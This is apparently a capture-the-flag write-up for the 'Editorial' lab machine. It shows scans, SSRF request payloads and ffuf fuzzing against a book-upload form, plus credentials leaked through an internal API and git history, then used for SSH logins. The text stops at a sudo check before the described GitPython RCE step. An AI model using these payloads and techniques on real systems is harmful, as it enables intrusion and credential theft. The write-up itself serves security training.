





## Summary

The box offers a possibility to enter a custom `URL` in a web form to upload a cover. This leads to `Server-Side Request Forgery (SSRF)`. A payload pointing to a `local running port` can be triggered by clicking on `preview button`. The local port `5000/TCP` can be found by fuzzing using `Burp Intruder` or alternatively `ffuf`. Using this port a `API endpoint` can be accessed which leads to `leaked credentials` for the user `dev` and to access via `SSH`. The user also holds the `user.txt`. In his `home directory` a `Git repository` called `apps` can be found which contains more `credentials`. By `reusing` the `password` on the user `prod`, privileges can be elevated. The user `prod` can execute a `Python script` called `clone_prod_change.py` with `sudo`. The scripts makes use of `GitPython` and `protocol.ext.allow` which is vulnerable to `argument injection`. This is described in `CVE-2022-24439` and leads to `Remote Code Execution (RCE)`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
	- [Port Scanning](#Port-Scanning)
	- [Enumeration of Port 80/TCP](#Enumeration-of-Port80TCP)
- [Foothold](#Foothold)
	- [Server-Side Request Forgery (SSRF)](#Server-Side-Request-Forgery-SSRF)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to prod](#Privilege-Escalation-to-prod)
- [Pivoting](#Pivoting)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
	- [CVE-2022-24439: GitPython Remote Code Execution (RCE)](#CVE-2022-24439-GitPython-Remote-Code-Execution-RCE)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

The box only offered port `22/TCP` and `80/TCP` to us.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.111.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 15:03 EDT
Nmap scan report for editorial.htb (10.129.111.223)
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.25 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.111.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 15:05 EDT
Nmap scan report for editorial.htb (10.129.111.223)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.111.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 15:07 EDT
Nmap scan report for editorial.htb (10.129.111.223)
Host is up (0.031s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1132.89 seconds
```

### Enumeration of Port 80/TCP

As we started investigating the `web application` on port `80/TCP`, we got redirected to `editorial.htb` which we added to our `/etc/hosts` file.

- [http://10.129.111.223/](http://10.129.111.223/)

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.111.223  editorial.htb
```

- [http://editorial.htb/](http://editorial.htb/)

We found a `web form` for publishing books which provided a field to insert a custom `URL`. This pointed directly to `Server-Side Request Forgery (SSRF)`.

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://editorial.htb/      
http://editorial.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.111.223], Title[Editorial Tiempo Arriba], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


## Foothold

### Server-Side Request Forgery (SSRF)

As first test we checked if we could generate any output while trying to access only locally available ports. Since we got nothing on port `80/TCP`, we forwarded the request we generated after entering `http://127.0.0.1:80` as `URL` and by clicking on the button to show us a `preview` of the potential cover.

#### Intruder Payload

```c
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 309
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8o9w45I1Pb2Btnml
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary8o9w45I1Pb2Btnml
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:§80§
------WebKitFormBoundary8o9w45I1Pb2Btnml
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary8o9w45I1Pb2Btnml--

```



#### Intruder Configuration

To show potential hits on the requests, `Yeeb` came up with a pretty smart configuration!



And with that configuration he found the locally available port `5000/TCP`.



#### API Access

We noticed that every time a cover got `uploaded`, the application generated a `URL` containing a `UUID`. 

```c
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 305
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryETNDuBrmCGTX1N83
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryETNDuBrmCGTX1N83
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000
------WebKitFormBoundaryETNDuBrmCGTX1N83
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryETNDuBrmCGTX1N83--

```



```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 07:05:51 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51

static/uploads/69d06215-fefa-43d2-bc34-9c0f1b6763b0
```

We created a payload to access `http://127.0.0.1:5000` and used `curl` to access the `file` which was generated by the `web application` to get access to the `API endpoint`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Editorial/serve]
└─$ curl http://editorial.htb/static/uploads/69d06215-fefa-43d2-bc34-9c0f1b6763b0
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

#### Finding the API endpoint using ffuf

Another shout-out to `Yeeb` for bringing up this well crafted payload to be used with `ffuf`.

```c
┌──(kali㉿kali)-[~]
└─$ seq 1 10000 | ffuf -w - -u http://editorial.htb/upload-cover -X POST -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylUeVtv36vebZPACI" -d '------WebKitFormBoundarylUeVtv36vebZPACI            
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundarylUeVtv36vebZPACI
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylUeVtv36vebZPACI--' -fr "unsplash_photo"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: -
 :: Header           : Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylUeVtv36vebZPACI
 :: Data             : ------WebKitFormBoundarylUeVtv36vebZPACI            
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundarylUeVtv36vebZPACI
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylUeVtv36vebZPACI--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: unsplash_photo
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 477ms]
:: Progress: [10000/10000] :: Job [1/1] :: 67 req/sec :: Duration: [0:01:03] :: Errors: 1 ::
```

Alternatively `fuff` can handle `request files`. Which makes the documentation a little bit cleaner. Awesome tool!

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Editorial/files]
└─$ cat request.req 
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 307
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8DGcLOaBG09f3afR
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary8DGcLOaBG09f3afR--
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Editorial/files]
└─$ seq 1 10000 | ffuf -w - -request request.req -u http://editorial.htb/upload-cover -fr "unsplash_photo"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: -
 :: Header           : Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8DGcLOaBG09f3afR
 :: Header           : Accept: */*
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: close
 :: Header           : Host: editorial.htb
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Data             : ------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary8DGcLOaBG09f3afR--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: unsplash_photo
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 24ms]
:: Progress: [10000/10000] :: Job [1/1] :: 37 req/sec :: Duration: [0:03:58] :: Errors: 1 ::
```

#### API Enumeration

The second request we forged accessed `/api/latest/metadata/messages/authors` which revealed some `credentials` for a user called `dev`.

```c
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 344
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygBlD0crl03qg37hx
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarygBlD0crl03qg37hx
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000/api/latest/metadata/messages/authors
------WebKitFormBoundarygBlD0crl03qg37hx
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarygBlD0crl03qg37hx--

```



```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 07:09:32 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51

static/uploads/78139655-cdb8-404f-ba6d-8b9b10066059
```

```c
┌──(kali㉿kali)-[~]
└─$ curl http://editorial.htb/static/uploads/78139655-cdb8-404f-ba6d-8b9b10066059
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

| Username | Password           |
| -------- | ------------------ |
| dev      | dev080217_devAPI!@ |

Luckily the credentials for `dev` granted us `SSH access`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh dev@editorial.htb 
The authenticity of host 'editorial.htb (10.129.111.223)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
dev@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun 15 07:46:19 PM UTC 2024

  System load:           0.1
  Usage of /:            60.7% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.111.223
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e3fd


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$
```

## user.txt

```c
dev@editorial:~$ cat user.txt 
ec8bb5f815c90b6aaa53116ec0e5af62
```

## Enumeration

After a quick `enumeration` we found another user called `prod`.

```c
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
```

```c
dev@editorial:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

In the `home directory` of `dev` we found a folder called `apps`.

```c
dev@editorial:~$ ls -la
total 32
drwxr-x--- 4 dev  dev  4096 Jun  5 14:36 .
drwxr-xr-x 4 root root 4096 Jun  5 14:36 ..
drwxrwxr-x 3 dev  dev  4096 Jun  5 14:36 apps
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan  6  2022 .bashrc
drwx------ 2 dev  dev  4096 Jun  5 14:36 .cache
-rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
-rw-r----- 1 root dev    33 Jun 15 19:02 user.txt
```

Which was a `Git repository`.

```c
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 4 dev dev 4096 Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```

## Privilege Escalation to prod

We checked the `git log` and again, found some credentials.

```c
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
    
    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
```

```c
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

| Password                 |
| ------------------------ |
| 080217_Producti0n_2023!@ |

The `password` we found also worked on the`prod` user.

```c
┌──(kali㉿kali)-[~]
└─$ ssh prod@editorial.htb
prod@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun 15 07:50:18 PM UTC 2024

  System load:           0.01
  Usage of /:            60.7% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             231
  Users logged in:       1
  IPv4 address for eth0: 10.129.111.223
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e3fd


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


prod@editorial:~$
```

## Pivoting

Another quick check on the `capabilities` of `prod` showed that the user could execute `/opt/internal_apps/clone_changes/clone_prod_change.py` using `sudo`.

```c
prod@editorial:~$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
```

```c
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
